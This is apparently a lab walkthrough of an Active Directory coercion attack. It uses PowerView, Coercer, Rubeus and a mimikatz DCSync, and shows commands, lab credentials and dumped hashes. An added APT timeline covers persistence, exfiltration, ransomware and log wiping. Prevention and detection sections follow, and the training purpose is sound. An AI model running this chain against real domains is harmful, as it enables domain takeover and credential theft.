









import RevealFlag from '@site/src/components/RevealFlag';

# Coercing Attacks & Unconstrained Delegation

## Description

Coercing attacks have become a `one-stop shop` for escalating privileges from `any user` to `Domain Administrator`. Nearly every organization with **a default AD infrastructure is vulnerable**. We've just tasted coercing attacks when we discussed the `PrinterBug`. However, **several other RPC functions can perform the same functionality**. Therefore, `any domain user` can `coerce RemoteServer$` to authenticate to any machine in the domain. Eventually, the [Coercer](https://github.com/p0dalirius/Coercer) tool was developed to **exploit all known vulnerable RPC functions simultaneously**.

Similar to the `PrinterBug`, an attacker can choose from several "*follow up*" options with the reverse connection, which, as mentioned before, are:

1. Relay the connection to another DC and perform DCSync (if **SMB Signing** is disabled).
2. Force the Domain Controller to connect to a machine configured for `Unconstrained Delegation (UD)` - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like `Rubeus` and `Mimikatz`.
3. Relay the connection to `Active Directory Certificate Services` to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
4. Relay the connection to configure Resource-Based Kerberos Delegation for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

---

## Attack

We will abuse the second "follow-up", assuming that an attacker has gained administrative rights on a server configured for `Unconstrained Delegation`. We will use this server to capture the `TGT`, while `Coercer` will be executed from the `Kali machine`.

To identify systems configured for `Unconstrained Delegation`, we can use the `Get-NetComputer` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) along with the `-Unconstrained` switch:

```powershell
PS C:\Users\bob\Downloads> Get-NetComputer -Unconstrained | select samaccountname

samaccountname
--------------
DC1$
SERVER01$
WS001$
DC2$
```



`WS001` and `SERVER01` are **trusted** for **Unconstrained delegation** (Domain Controllers are trusted by default). So either `WS001` or `Server01` would be a target for an adversary. In our scenario, we have already compromised `WS001` and `Bob`, who has administrative rights on this host. We will start `Rubeus` in an administrative prompt to monitor for new logons and extract `TGTs`:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe monitor /interval:1

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: TGT Monitoring
[*] Monitoring every 1 seconds for new TGTs


[*] 18/12/2022 22.37.09 UTC - Found new TGT:

  User                  :  bob@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.09
  EndTime               :  19/12/2022 09.30.09
  RenewTill             :  25/12/2022 23.30.09
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

doIE2jCCBNagAwIBBaEDAgEWooID5zCCA+NhggPfMIID26ADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0
GwtFQUdMRS5MT0NBTKOCA6EwggOdoAMCARKhAwIBAqKCA48EggOLxoWz+JE4JEP9VvNlDvGKzqQ1BjjpjjO03haKFPPeszM4Phkb    QQBPfixBqQ3bthdsizmx3hdjNzFVKnUOK2h2CDFPeUia+0rCn1FllimXQwdEFMri7whC2qA4/vy52Y2jJdmkR7ZIRAeU5Yfm373L
iEHgnX4PCA94Ck/BEwUY0bk6VAWkM2FSPgnuiCeQQ4yJMPa3DK6MHYJ/1kZy+VqxwSqov/tVhATshel1vXpr4rz03ofgNtwLDYb+    K5AGYSbSct5w1jTWtGAicCCr1vpcUguIWH0Nh1lQ+tZccVtEtsrjZ/jwCKsadQWIFwhPOnVpf5drUlav1iCXmxWqQr5glW/IOOE1
lHsBolieGSyY20ZHBYjXflCGkO13mRwqO3rQ5KMs8HrC3Aqu7Popaw29at0vzZLinYnWnHUn01hh5e3QyIkqIH3CBvaPbl3RukZ7    jZRBm6BVF7R5KEWp+6Gg2joP6WvXDBCIzqL3jmxQ8NVoeeidgnBuZKpYL45E8jJjxbW4t9D8EdlX9Xu+fj/Fazw08HtRkzwG30vE
	<SNIP>
	<SNIP>
	<SNIP>
	
[*] Ticket cache size: 4
```



Next, we need to know the **IP address of WS001**, which we can be obtain by running `ipconfig`. Once known, we will switch to the Kali machine to execute `Coercer` towards `DC1`, while we force it to connect to `WS001` if coercing is successful:

```bash
trustinveritas@htb[/htb]$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[dc1.eagle.local] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to ws001.eagle.local ...
   [>] Pipe '\PIPE\lsarpc' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... rpc_s_access_denied
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... ERROR_BAD_NETPATH (Attack has worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... ERROR_BAD_NETPATH (Attack has worked!)
   [>] Pipe '\PIPE\netdfs' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsAddStdRoot' (opnum 12) ... rpc_s_access_denied (Attack should have worked!)
      [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...       [>] On 'dc1.eagle.local' through '\PIPE\netdfs' targeting 'MS-DFSNM::NetrDfsRemoveStdRoot' (opnum 13) ...    [>] Pipe '\PIPE\spoolss' is accessible!
      [>] On 'dc1.eagle.local' through '\PIPE\spoolss' targeting 'MS-RPRN::RpcRemoteFindFirstPrinterChangeNotificationEx' (opnum 65) ... rpc_s_access_denied (Attack should have worked!)

[+] All done!
```



Now, if we switch to `WS001` and look at the continuous output that `Rubeus` provide, there should be a `TGT` for `DC1` available:

```powershell
[*] 18/12/2022 22.55.52 UTC - Found new TGT:

  User                  :  DC1$@EAGLE.LOCAL
  StartTime             :  18/12/2022 23.30.21
  EndTime               :  19/12/2022 09.30.21
  RenewTill             :  24/12/2022 09.28.39
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFdDCCBXCgAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqADAgECoRcwFRsGa3JidGd0    GwtFQUdMRS5MT0NBTKOCBDowggQ2oAMCARKhAwIBAqKCBCgEggQkv8ILT9IdJgNgjxbddnICsd5quqFnXS7m7YwJIM/lcwLy4SHI
i1iWbvsTiu078mz28R0sn7Mxvg2oVC7NTw+b2unvmQ3utRLTgaz02WYnGWSBu7gxs+Il/0ekW5ZSX3ESq0AGwPaqUcuWSFDNNfOM
ws/8MlkJeFSFWeHwJL7FbzuCjZ2x/6UUl2IOYq0Ozaf3R+rDJQ6LqpDVAet53IoHDugduBfZoDHTZFntRAoYrmAWdcnFdUEpyZGH    Kj6i2M0TyrxUp3nq022BNB6v+sHgH3SWsMNiba+TYaeRdjiM2nVjhGZTXDuro9rLkYFk1HPXuI/d0RfzVuq9Hh5hVCZRwcM3V2BN
eYRTMeW+lvz1bBgdgK/wlYMS7J99F1V/r6K8zdO7pQ0Zj216DfA42QINPswVL+89gy7PLLm5aYlw8nlbBdvTZrPbeOhtvdBy/pFB    fxrjHA+fW34/Yk+9k6oSPXCaCQ/Rd1qZ/P57/0MDUYRlDs5EYOOxxGQPVFbOqhbG414vGRbi39ALj/MkYG629kCEb9K89p5teo6f
7w/4M6Ytun16sG3GxsWDG6dlZP+fmmOr0nwdXgvT28NQxQ3EEMErX+BojUY6DdRBH2u3fcv1KOA5K7MDma+cVLaa0YjSYZ2IDRaC    0JcgcUexd6EfQPtSnikaA/zzYmu/PSYVXlcg7cFULJIiPuN4f9VlDlVOqj8C3xCwtYo4zRklLESUES9tGK/VfsmN0Q/Fx5ULIa7y
UND/d1HlQ+R6Fnh2GGUPk+LlVw+ScD0kf2nmmlsIwhnGmscpiFs1lprX35Khlx/y5+v9S7bdokZujPpyZactQ4wdfRK++bOWo2ao    Ewrzjuq199JnTQHbxkqGgeKQedOPxOhDccQLYTm44wH73JuE+XoGKmdGbgXfjSBFlTinP9mvZA12NkQupnGYVzJ2rS1T0nf2VVUW
MfIgh8Nz4xYvDHV1iIV4ZrLI7u7ZwJtrlESgO0H0d/k6CpLxo5L7kzhkU+MJggdUFJvS3HskTxZmewEwSdKJn21YfAG1Q6X0nFqk
HdK3RUvxXcycwMvWdfYH2AW06+98q5h+TSJQrMcrp9gT+khLPD4KL2n6+cvC3BVHqge5Nc16LhW7kcNp+JcIzknwAsCZlaXzhz3X
K78ooLfZGaKGoNnDWLUQpYToVgXXSO53HJ3Vgl0MwctV7l+gJdwMtac0VVhH8EAndeSPnEcNOX8mr/30k+9GwM1wtFQNFB03CdoA    qRJBjyFw1h1KKuc61PTWuxVLwGmezshekwoSLOJ7V9G9qNpVQl0AgtTK2SHeobItuD4rhDc3/0jJ4LzsXJieYbLK7dtVfxYtSbeu
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5
```



We can use this `TGT` for **authentication within the domain**, becoming the `Domain Controller`. From there onwards, `DCSync` is an obvious attack (among others).

One way of using the abovementioned `TGT` is through `Rubeus`, as follows.

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL
        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Then, a `DCSync` attack can be executed through `mimikatz`, essentially by replicating what we did in the `DCSync` section.

```powershell
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz # exit
Bye!
```

---

## 🚀 Immediate High-Impact Actions after PTT:

Action | Description | Tool
-------|-------------|-----------------
DCSync Attack | Dump all domain user password hashes (you already mentioned this). | `mimikatz` (lsadump::dcsync)
DCSync Specific Targets | Only pull sensitive users like krbtgt, Administrator, or specific Tier0 accounts. | `mimikatz`
Kerberoasting | Request Service Tickets (TGS) for all SPNs and crack service account passwords offline. | `Rubeus.exe kerberoast`
Golden Ticket Attack | Forge your own TGTs forever (Persistence). | `mimikatz kerberos::golden`
Silver Ticket Attack | Forge TGS tickets for specific services (more stealthy). | `mimikatz kerberos::golden /service`
DCShadow Attack | Push your own changes into Active Directory without going through a DC officially. | `mimikatz lsadump::dcshadow`
Lateral Movement | Use the TGT to access other machines using SMB, WMI, PSRemoting without passwords. | `PsExec, WMIExec, smbclient`
Shadow Credentials Attack | Abuse msDS-KeyCredentialLink to stealthily create backdoors. | `Whisker, ForgeCert, Certify`
Dump NTDS.dit manually | If DCSync is blocked, you can still grab the full Active Directory database. | `ntdsutil, Volume Shadow Copy`
Shadow Admin Creation | Add new privileged accounts without touching built-in groups. | `LDAP, ADSI`

<details>
<summary>APT POST-EXPLOITATION TIMELINE </summary>

```txt
+--------------------------------------------------------------------------------+
|                                APT POST-EXPLOITATION TIMELINE                  |
+--------------------------------------------------------------------------------+

T+0h to T+1h: Initial Access
--------------------------------------
- Inject TGT into memory (Rubeus ptt).
- Perform DCSync (mimikatz lsadump::dcsync).
- Dump krbtgt and Administrator hashes.
- Create Golden Ticket for future persistence.
- Recon Domain Admins, trusts, and domain structure.

T+1h to T+3h: Persistence and Spread
--------------------------------------
- Deploy Shadow Credentials (msDS-KeyCredentialLink).
- Setup DCShadow to silently push changes.
- Enumerate Tier 0 assets (Backup Servers, PKI Servers).
- Start Pass-the-Ticket attacks against servers.
- Dump service accounts via Kerberoasting.

T+3h to T+6h: Lateral Movement and Data Access
--------------------------------------
- Move laterally using forged TGTs.
- Extract NTDS.dit from backup servers (shadow copy attacks).
- Dump DPAPI credentials (certificates, passwords).
- Steal scheduled task and service credentials.

T+6h to T+12h: Data Harvesting and Staging
--------------------------------------
- Map sensitive file shares (finance, HR, legal, dev).
- Gather and stage massive data dumps (pre-exfil).
- Crack Kerberoasted service accounts offline.
- Identify Azure, AWS, GCP credentials inside the network.

T+12h to T+24h: C2 Setup and Final Persistence
--------------------------------------
- Setup covert C2 channels (DNS tunneling, HTTPS fronting).
- Deploy fallback payloads (Cobalt Strike, Empire listeners).
- Register rogue devices in MDM solutions (Intune backdoor).
- Prepare ransomware modules (optional if mission supports).

Post-24h: Long-Term Survival and Control
--------------------------------------
- Continue operating under Golden Ticket.
- Use Shadow Credentials for stealthy access without detection.
- Monitor password resets and update Golden Tickets.
- Expand into cloud infrastructure (Golden SAML attacks).
- Exfiltrate critical datasets slowly and quietly.
- Begin expanding influence to trusted external domains.

+--------------------------------------------------------------------------------+
| Note: At every stage, logs are cleaned (wevtutil), artifacts removed, and      |
| detection surfaces minimized (no Kerberos TGT request spikes, stealth ACLs).   |
+--------------------------------------------------------------------------------+
```

</details>

---

## Prevention

Windows does not offer granular visibility and control over `RPC calls` to allow discovering what is being used and block certain functions. Therefore, an out-of-the-box solution for preventing this attack does not exist currently. However, there are two different general approaches to preventing coercing attacks:

1. Implementing a `third-party RPC firewall`, such as the one from [zero networks](https://github.com/zeronetworks/rpcfirewall), and using it to block dangerous RPC functions. This tool also comes up with an audit mode, allowing monitoring and gaining visibility on whether business disruptions may occur by using it or not. Moreover, it goes a step further by providing the functionality of blocking RPC functions if the dangerous `OPNUM` associated with coercing is present in the request. *(Note that in this option, for every newly discovered RPC function in the future, we will have to modify the firewall's configuration file to include it.)*

2. Block Domain Controllers and other core infrastructure servers from connecting to outbound ports `139` and `445`, **except to machines that are required for AD** *(as well for business operations)*. One example is that while we **block general outbound traffic** to `ports 139` and `445`, we still should allow it for **cross Domain Controllers**; otherwise, domain replication will fail. *(The benefit of this solution is that it will also work against newly discovered vulnerable RPC functions or other coercing methods.)*

---

## Detection

As mentioned, Windows does not provide an out-of-the-box solution for monitoring RPC activity. The `RPC Firewall` from [zero networks](https://github.com/zeronetworks/rpcfirewall) is an excellent method of detecting the abuse of these functions and can indicate immediate signs of compromise; however, if we follow the general recommendations to not install third-party software on Domain Controllers then firewall logs are our best chance.

A successful coercing attack with `Coercer` will result in the following `host firewall log`, where the machine at `.128` is the attacker machine and the `.200` is the Domain Controller:



We can see plenty of incoming connections to the DC, followed up by outbound connections from the DC to the attacker machine; this process repeats a few times as Coercer goes through several different functions. All of the outbound traffic is destined for port `445`.

If we go forward and block outbound traffic to port `445`, then we will observe the following behavior:



Now we can see that even though the inbound connection is successful, the firewall drops the outbound one, and consequently, the attacker does not receive any coerced TGTs. Sometimes, when port 445 is blocked, the machine will attempt to connect to port 139 instead, so blocking both ports `139` and `445` is recommended.

The above can also be used for detection, as any unexpected dropped traffic to ports `139` or `445` is suspicious.

---

## Questions

### `1. Repeat the example shown in the section, and type DONE as the answer when you are finished.`

<br />

<RevealFlag>{`DONE`}</RevealFlag>

#### SSH to the Kali machine (Optional)

```bash
ssh -X kali@10.129.37.76
```

#### Connect to Kali Machine

```bash
xfreerdp /v:10.129.37.76 /u:kali /p:kali /cert:ignore /compression +clipboard +fonts /network:auto /dynamic-resolution /sound:sys:oss
```

---

#### 1. 🔥 On Windows Target (WS001): PowerView

```bash
xfreerdp /v:172.16.18.25 /u:bob /p:Slavi123 /cert:ignore /compression +clipboard +fonts /network:auto /dynamic-resolution /sound:sys:oss
```

- **Check if PowerShell is in Admin session**

```powershell
whoami /groups
```

- Check `Unconstrained Delegation` PowerView

```powershell
cd C:\Users\bob\Downloads
```

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```powershell
. .\PowerView-main.ps1
```

```powershell
Get-NetComputer -Unconstrained | select samaccountname
```

#### 2. 🧲 Run Rubeus in TGT Monitor Mode

```powershell
.\Rubeus.exe monitor /interval:1
```

---

